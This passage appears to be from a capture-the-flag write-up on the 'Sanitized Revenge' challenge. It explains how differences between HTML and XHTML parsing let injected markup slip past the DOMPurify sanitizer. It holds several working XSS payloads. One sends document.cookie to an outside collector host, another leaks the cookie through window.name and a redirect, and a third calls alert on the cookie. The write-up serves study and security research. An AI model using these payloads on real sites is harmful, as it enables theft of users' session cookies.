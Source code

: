 In the [author's writeup](https://github.com/maple3142/My-CTF-Challenges/tree/master/ImaginaryCTF%202023/Sanitized%20Revenge), there are several other solutions given, each of which is quite interesting.

The first one takes advantage of the fact that HTML ignores `<!--` inside style tags, but xhtml doesn't, to create a difference:

``` html
<body>
<style>a { color: <!--}</style>
<img alt="--></style><base href='/(document.location=/http:/.source.concat(String.fromCharCode(47)).concat(String.fromCharCode(47)).concat(/cb6c5dql.requestrepo.com/.source).concat(String.fromCharCode(47)).concat(document.cookie));var[Page]=[1]//x/' />">
</body>
```

The second one exploits the fact that DOMPurify checks for valid HTML tags when detecting mXSS, which need to be ASCII alphanumeric, but XML actually allows more characters:

``` html
a<style><ø:base id="giotino" xmlns:ø="http://www.w3.org/1999/xhtml" href="/**/=1;alert(document.cookie);//" /></style>
```

So it's fine in an HTML context, but in xhtml, it will still be parsed as a base tag.

The third one looks similar to the first one, but the first one is much simpler. It goes like this:

``` html
ff<style><!--</style><a id="--><base href='/**/;var/**/Page;window.name=document.cookie;document.location.host=IPV4_ADDRESS_IN_INTEGER_FORM_REDACTED//'></base><!--"></a><style>&lt;k</style><style>--></style>
```

In HTML, it's just a style tag + an a tag + two style tags. But in xhtml, the `<!-- -->` inside the style is also considered a comment, so it becomes:

``` html
ff<style><base href='/**/;var/**/Page;window.name=document.cookie;document.location.host=IPV4_ADDRESS_IN_INTEGER_FORM_REDACTED//'></base></style>
```

From the desired effect he wants to achieve, it seems that it can be simplified like this:

``` html
ff<style><!--</style><a id="--><base href='/**/;var/**/Page;window.name=document.cookie;document.location.host=IPV4_ADDRESS_IN_INTEGER_FORM_REDACTED//'></base><!--"></a><style>--></style>
```
